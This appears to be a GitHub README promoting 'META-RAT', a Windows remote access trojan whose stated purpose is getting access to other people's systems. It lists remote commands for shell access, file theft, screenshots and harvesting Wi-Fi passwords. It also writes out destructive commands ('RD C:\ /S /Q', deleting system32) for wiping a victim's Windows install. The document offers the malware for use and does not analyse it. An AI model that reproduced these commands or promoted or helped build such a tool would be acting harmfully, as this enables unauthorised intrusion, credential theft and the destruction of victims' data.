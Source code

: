 # META-RAT
This Tool is for get access to others system
---
Made By Taha Security
---

My Instagram : @taha.security_

Only Work in Windows

And This is the options that ypu can do in taget system : 

pwd : pwd 

Upload file : upload_file + (with link)

Destroy all the system : danger_virus (Remove Windows and system32) #RD C:\ /S /Q del c:\windows\system32*. * /q del /f /s /q “C:*.

Download File : pickup + [name of file] (.txt files)

Download Image : download

Change Directory : cd (cd + [dir name])

Rename File : ren_file_ + [file name] + [your name] (Change the name of the file)

Shutdown,Restart : shutdown,restart

open link : open_link + http://example.com (open any link in target system)

drives list : dir_ls (see the name of the drives)

system information : sys_info 

file list : ls (see all the file names that you are in drive)

Remove file : rm_file + [filename] (delete any files for ever)

Hack System Wlans : hackwifi (get name) , getpass_[name]

upload txt file : uptxt_ + [your text,dont use space] + [yourname]

Access Shell : cmd_+[you text] (For Access CMD)

Bad Sound : Badvoice_ + [Time]

Speak : say_ + [Your Text]

Change Background : chback_ + [Image Link] (Change Desktop Wallpaper)

Volume -> 100% : volumeup

Volume -> 0% : volumedown

Take Screen Shot : screenshot

![META RAT](https://user-images.githubusercontent.com/102474598/203798410-9f7afc74-be66-4e32-ae84-51b6b022febe.png)

![LOGO](https://user-images.githubusercontent.com/102474598/203800137-b04b8445-5252-4f9e-9b00-18004442256d.png)


Made By Taha Security
---

My Instagram : @taha.security_
